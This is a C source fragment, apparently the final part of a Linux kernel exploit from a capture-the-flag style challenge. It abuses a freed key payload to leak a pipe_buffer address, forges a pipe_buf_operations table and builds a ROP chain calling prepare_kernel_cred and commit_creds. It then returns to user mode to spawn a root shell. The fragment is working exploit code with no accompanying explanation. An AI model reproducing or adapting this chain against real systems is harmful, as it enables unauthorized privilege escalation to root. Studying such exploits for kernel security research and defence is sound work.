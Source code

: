 ```c
    del(1);
    del(0);

    pipe_key_id = key_alloc("arttnba3pipe", buf, PIPE_INODE_INFO_SZ - 0x18);
    del(1);

    /* this object is for the pipe buffer */
    alloc(0, PIPE_BUFFER_SZ, buf);
    del(0);

    pipe(pipe_fd);

    /* note that the user_key_payload->datalen is 0xFFFF now */
    retval = key_read(pipe_key_id, buf, 0xffff);
    pipe_buffer_addr = buf[16]; /* pipe_inode_info->bufs */
    printf("\033[32m\033[1m[+] Got pipe_buffer: \033[0m0x%lx\n", 
            pipe_buffer_addr);

    /* construct fake pipe_buf_operations */
    memset(buf, 'A', sizeof(buf));

    buf[0] = *(size_t*) "arttnba3";
    buf[1] = *(size_t*) "arttnba3";
    buf[2] = pipe_buffer_addr + 0x18;  /* pipe_buffer->ops */
    /* after release(), we got back here */
    buf[3] = kernel_offset + POP_RBX_POP_RBP_POP_R12_RET;
    /* pipe_buf_operations->release */
    buf[4] = kernel_offset + PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET;
    buf[5] = *(size_t*) "arttnba3";
    buf[6] = *(size_t*) "arttnba3";
    buf[7] = kernel_offset + POP_RDI_RET;
    buf[8] = NULL;
    buf[9] = kernel_offset + PREPARE_KERNEL_CRED;
    buf[10] = kernel_offset + XCHG_RDI_RAX_DEC_STH_RET;
    buf[11] = kernel_offset + COMMIT_CREDS;
    buf[12] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x31;
    buf[13] = *(size_t*) "arttnba3";
    buf[14] = *(size_t*) "arttnba3";
    buf[15] = getRootShell;
    buf[16] = user_cs;
    buf[17] = user_rflags;
    buf[18] = user_sp + 8; /* system() wants it : ( */
    buf[19] = user_ss;

    del(0);
    alloc(0, PIPE_BUFFER_SZ, buf);

    /* trigger pipe_buf_operations->release */
    puts("[*] trigerring pipe_buf_operations->release()...");

    close(pipe_fd[1]);
    close(pipe_fd[0]);

    return 0;
}
```

